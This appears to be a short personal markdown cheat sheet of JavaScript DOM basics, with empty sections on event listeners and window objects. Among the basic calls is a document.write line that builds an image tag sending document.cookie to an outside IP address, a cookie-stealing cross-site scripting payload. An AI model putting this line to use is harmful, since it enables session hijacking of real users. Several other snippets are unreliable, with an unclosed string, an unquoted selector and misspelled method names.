 # Document Object Model (DOM)

### Basics
> console.log("Hello World!);
>
> document.cookie
>
> document.getElementById('1');
> document.getElementByTagName('div');
> document.getElementByClassName('list-items');
> document.querySelector(#main-heading);
> document.querySelectorAll('div');
> 
> document.write('something');
> document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
> 

### Event Listeners 
>
> 

### Window Objects
>
>
#
